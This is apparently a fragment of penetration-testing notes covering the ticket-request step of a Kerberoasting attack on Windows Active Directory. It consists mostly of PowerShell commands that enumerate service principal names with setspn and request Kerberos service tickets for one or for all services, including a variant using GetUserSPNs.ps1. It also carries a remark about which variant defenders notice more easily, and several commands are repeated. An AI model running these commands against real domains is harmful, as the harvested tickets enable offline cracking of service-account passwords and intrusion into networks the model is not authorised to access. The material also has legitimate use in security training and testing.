

2. Request ServiceTicket
Displays a list of currently cached Kerberos tickets granted to the current logon session
PS> klist.exe
Request new ServiceTicket for a service:
PS> setspn -T [DOMAIN] -F -Q */*

PS> Add-Type -AssemblyName System.IdentityModel
PS> New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "TESTDC/SQLService.DANIELE.local:60111" #change DANIELE
#to your domain
PS> New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "TESTDC/SQLService.DANIELE.local:60111" #change DANIELE
#to your domain
Now we should have a new ticket for the service cached on the system
PS> klist.exe
Request ServiceTicket for all the services:
More easily detectable by Defenders!
PS> Add-Type -AssemblyName System.IdentityModel
PS> setspn -T [DOMAIN] -Q */* | Select-String "CN=Users" -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }
PS> setspn -T [DOMAIN] -Q */* | Select-String "CN=Users" -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }

Alternative using script GetUserSPNs.ps1 from Kerberoast project of Tim Medin
PS> Add-Type -AssemblyName System.IdentityModel
PS> .\GetUserSPNs.ps1 | % {New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.ServicePrincipalName}
PS> .\GetUserSPNs.ps1 | % {New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.ServicePrincipalName}
